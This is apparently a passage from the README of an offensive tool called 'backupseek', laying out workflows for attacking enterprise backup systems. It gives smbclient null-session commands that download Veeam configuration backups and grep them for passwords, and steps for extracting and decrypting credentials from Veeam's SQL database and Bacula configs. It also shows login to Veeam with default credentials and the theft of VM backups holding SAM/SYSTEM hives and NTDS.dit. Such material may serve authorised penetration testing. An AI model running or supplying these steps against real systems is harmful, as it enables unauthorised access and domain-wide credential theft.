 ### Workflow 3: Share Enumeration
```bash
# 1. Full scan with share detection
./backupseek.py targets.txt --full

# 2. Test share access
smbclient //192.168.10.50/VeeamBackup -N

# 3. List backup files
smbclient //192.168.10.50/VeeamBackup -N -c 'ls'

# 4. Download configuration backups
smbclient //192.168.10.50/VeeamBackup -N -c 'get configbackup.xml'

# 5. Analyze for credentials
grep -i "password\|credential" configbackup.xml
```

### Workflow 4: Credential Harvesting
```bash
# 1. Identify all backup systems
./backupseek.py targets.txt --full

# 2. For each Veeam server found:
# - Access SQL database VeeamBackup
# - Extract from [dbo].[Credentials] table
# - Decrypt using known methods

# 3. For each Bacula server found:
# - Access /etc/bacula/bacula-dir.conf
# - Extract Director password
# - Connect to Director: bconsole

# 4. For each accessible backup share:
# - Search for .bak, .vbk, .vib, .vrb files
# - Download and analyze with strings
# - Extract credentials from configs
```

## Exploitation Examples

### Example 1: Veeam Default Credentials
```bash
# 1. Discover Veeam server
./backupseek.py targets.txt --veeam
# Found: 192.168.10.50 - Veeam Backup & Replication

# 2. Access web interface
curl -k https://192.168.10.50:9419

# 3. Login with defaults
Username: administrator
Password: password

# 4. Navigate to restore points
# Download VM backups containing:
# - SAM/SYSTEM registry hives
# - NTDS.dit (domain database)
# - Credential Manager vaults
```

